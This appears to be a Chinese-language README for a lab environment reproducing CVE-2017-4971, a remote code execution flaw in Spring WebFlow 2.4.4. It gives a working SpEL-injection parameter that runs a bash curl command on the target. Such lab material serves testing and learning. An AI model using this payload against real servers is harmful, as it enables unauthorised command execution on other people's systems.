 # Spring WebFlow 远程代码执行漏洞环境 (漏洞编号:CVE-2017-4971)
### 测试环境

本环境用spring-webflow源码的booking-mvc项目演示了Spring WebFlow框架中存在的一个代码执行的漏洞.

spring-webflow版本: 2.4.4

### 远程代码执行利用
浏览器[打开服务](http://{{ip}}:{{port[0]}}),预订酒店,到下面页面

> ![](vuln/spring/2.png)

点击Confirm同时修改此时的HTTP包

> ![](vuln/spring/1.png)

加入的参数

> `_(new+java.lang.ProcessBuilder((new+java.lang.String[]{"/bin/bash","-c","curl+baidu.com+>+/tmp/baidu"}))).start()=1`

发送请求后,会在目标机器执行`curl baidu.com > /tmp/baidu`

> 登陆在线控制台查看命令是否执行成功


### 参考资料
[Spring WebFlow 远程代码执行漏洞分析(CVE-2017-4971)](https://threathunter.org/topic/593d562353ab369c55425a90)